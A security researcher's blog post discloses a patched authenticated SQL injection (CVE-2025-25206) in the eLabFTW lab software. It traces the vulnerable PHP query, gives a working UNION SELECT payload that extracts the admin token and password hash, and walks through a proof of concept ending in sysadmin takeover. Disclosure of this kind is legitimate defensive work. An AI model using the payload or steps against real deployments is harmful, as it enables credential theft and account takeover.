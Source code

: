 ```yaml
---
layout: post
title: "Elabftw CVE-2025-25206"
category: cve
tags: [elabftw, cve-2025-25206, security]
cvss_score: 8.3
cvss_vector: "CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:L"
---
```


## Authenticated SQL Injection via Metadata Update
{% if page.cvss_score %}
  {% include cvss.html score=page.cvss_score vector=page.cvss_vector %}
{% endif %}

[Elabftw](https://github.com/elabftw/elabftw) is an experiment tracking software used by many universities, particularly in Europe it seems. I came across it during a CTF and thought it looked interesting, so I cloned the Github repo and started to dig in.

Prior to going deep into any web assessment, I like to manually look at every query string in an app to ensure that there aren't any irregularities.  Sure this takes time, but often I find that I can catch things that automated scanners miss.

Often times string concatenation is a major culprit for SQL injection, and since this app is written in PHP that syntax would look something like `$sql = "SELECT something from table WHERE id = " . $id`. Knowing this, I did a full regex search through the codebase along the lines of `/SELECT.*\..*/`, basically just looking for string concatenation.

After going through the results, one function in the `Users` model caught my eye

```php
    public function readNamesFromIds(array $idArr): array
    {
        if (empty($idArr)) {
            return array();
        }
        $sql = "SELECT CONCAT(users.firstname, ' ', users.lastname) AS fullname, userid, email FROM users WHERE userid IN (" . implode(',', $idArr) . ') ORDER BY fullname ASC';
        $req = $this->Db->prepare($sql);
        $this->Db->execute($req);

        return $req->fetchAll();
    }
```

As can be seen, this `idArr` field is being concatenated onto the sql string.  


```php
$sql = "SELECT CONCAT(users.firstname, ' ', users.lastname) AS fullname, userid, email 
FROM users WHERE userid IN (" . implode(',', $idArr) . ') ORDER BY fullname ASC';
```

If somehow it weren't sanitized we as an attacker could inject arbitrary SQL and potentially read sensitive data.

Tracing the call stack, I found that `idArr` is passed in by `PermissionsHelper` to see which users have permissions to view an experiment.

```php
   /**
     * Make the permissions json string an array with human readable content, translate the ids
     */
    public function translate(Teams $Teams, TeamGroups $TeamGroups, string $json): array
    {
        $permArr = json_decode($json, true, 512, JSON_THROW_ON_ERROR);
        $result = array();

        $base = BasePermissions::tryFrom($permArr['base']) ?? throw new ImproperActionException('Invalid base parameter for permissions');
        $result['base'] = $base->toHuman();
        $result['teams'] = $Teams->readNamesFromIds($permArr['teams']);
        $result['teamgroups'] = $TeamGroups->readNamesFromIds($permArr['teamgroups']);
        $result['users'] = $Teams->Users->readNamesFromIds($permArr['users']);

        return $result;
    }
```

As can be seen, the `permArr` variable is just decoded JSON, and the `translate` function is just passing in the JSON from the key `users` to the `readNamesFromIds` function. If we as a user can alter the JSON (which is likely because we can update permissions for our experiments), we can execute a full SQL injection. 

Looking at the experiments UI, I saw an option to `changeVisibility` of an experiment. Clicking on it gives me this:

<figure style="text-align: center; margin: 2em 0;">
  <img src="/assets/img/elabftw/visibility.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
</figure>

After clicking save and proxying the request through Burpsuite, I see the following:

<figure style="text-align: center; margin: 2em 0;">
  <img src="/assets/img/elabftw/visibility_intercepted.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
</figure>


Perfect. As can be seen, when we update the `visibility` setting we are sending a JSON string with a `users` key, exactly what we need to abuse in order inject SQL.


### Exploiting

Given that we can inject arbitrary SQL, what type of attack should we go for next? Looking through the `MYSQL` config, I saw that the user does not have `FILE` permissions, so writing a reverse shell into the webroot is not an option.

Fortunately, there's a much simpler way to privilege escalation here -- a `UNION SELECT` query.  If we look at the original query,

```
$sql = "SELECT CONCAT(users.firstname, ' ', users.lastname) AS fullname, userid, email FROM users WHERE userid IN (" . implode(',', $idArr) . ') ORDER BY fullname ASC';
```

we can see that it's fetching 3 text columns from the database. Given that most sensitive data (password hashes, tokens) are stored in the text format, we can use that to our advantage.

To escape out of the original SQL string and perform a UNION attack, I went with the following values for `users`:

```
9999999) UNION SELECT email, token, password_hash FROM users WHERE id = 1 OR 1 IN (2
```

While to those unfamiliar with SQLi this may look strange, when concatenated onto the original SQL query we get the following:

```
SELECT CONCAT(users.firstname, ' ', users.lastname) AS fullname, userid, email FROM users WHERE userid IN (9999999) UNION SELECT email, token, password_hash FROM users WHERE id = 1 OR 1 IN (2) ORDER BY fullname ASC
```

This is a perfectly valid SQL query. Note that the `SELECT CONCAT` part is basically ignored whereas the `UNION SELECT` part will always return results. This allows us to get the sysadmin's token and password hash, enabling full takeover of the app.

### PoC

1. Login to elabftw as an unprivileged user.
2. Create an experiment and edit the visibility. 
3. Capture the request in BurpSuite or another proxy. Change the `users` field in the `canread` JSON object to the payload above

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/elabftw/sqli.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>

4. Refresh the experiments page. Where the permissions options lives, you should the see the results of the UNION query, which contains a password hash, token, or whatever you're targeting.

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/elabftw/sqli_results.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>

5. If targeting admin token, copy the token and replace the existing `token` cookie with that value.  

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/elabftw/token.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>

6. Request the `sysconfig.php` page in your browser. You are now logged in as sysadmin with full control over the app.

    <figure style="text-align: center; margin: 2em 0;">
      <img src="/assets/img/elabftw/sysadmin.png" alt="Proxy" style="display: block; margin-left: auto; margin-right: auto; max-width: 90%; border-radius: 8px;">
    </figure>

### Final Thoughts
This app in general is quite strictly audited and pretty well secure. It just goes to show that sometimes simple, obvious mishaps can go under the radar. 

Note that this has been patched and a security advisory has been published here: [GHSA-qffc-rfjh-77gg](https://github.com/elabftw/elabftw/security/advisories/GHSA-qffc-rfjh-77gg)
 
